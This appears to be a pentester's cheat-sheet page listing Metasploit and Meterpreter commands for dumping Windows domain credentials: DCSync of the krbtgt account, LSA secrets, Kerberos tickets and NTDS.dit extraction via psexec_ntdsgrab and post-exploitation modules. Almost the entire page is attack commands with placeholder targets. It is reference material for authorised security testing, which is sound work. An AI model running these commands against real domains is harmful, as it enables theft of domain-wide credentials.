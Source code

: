 # Metasploit

## 01 - DC Synchronization

### 1.1 - Kiwi

```
meterpreter > dcsync krbtgt

meterpreter > dcsync_ntlm krbtgt
```

## 02 - LSASS Injection

### 2.1 - Kiwi

```
meterpreter > lsa_dump_secrets
```

## 03 - Kerberos

### 3.1 - Kiwi

```
meterpreter > creds_kerberos
```

## 04 - NTDS

### 4.1 - SMB Network Protocol

```
msf > use auxiliary/admin/smb/psexec_ntdsgrab

msf auxiliary(admin/smb/psexec_ntdsgrab) > options

msf auxiliary(admin/smb/psexec_ntdsgrab) > set rhosts <IP>

msf auxiliary(admin/smb/psexec_ntdsgrab) > set smbdomain <domain_name>

msf auxiliary(admin/smb/psexec_ntdsgrab) > set smbuser <username>

msf auxiliary(admin/smb/psexec_ntdsgrab) > set smbpass < password | nt_hash>

msf auxiliary(admin/smb/psexec_ntdsgrab) > run
```

### 4.2 - Interactive Session

Enumerate the **DSA database file** via registry.

```
meterpreter > reg enumkey [-r <domain_controller_IP>] -k HKLM\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters -v "DSA Database file" [-w <64>]
```

Retrieve credentials from NTDS.

```
meterpreter > run post/windows/gather/credentials/domain_hashdump

meterpreter > run post/windows/gather/file_from_raw_ntfs

meterpreter > run post/windows/gather/ntds_location

meterpreter > run post/windows/gather/ntds_grabber cleanup=true download=true
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Windows/Archive Files/Zip|Windows Archive Files]]

- [Pentestlab: Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)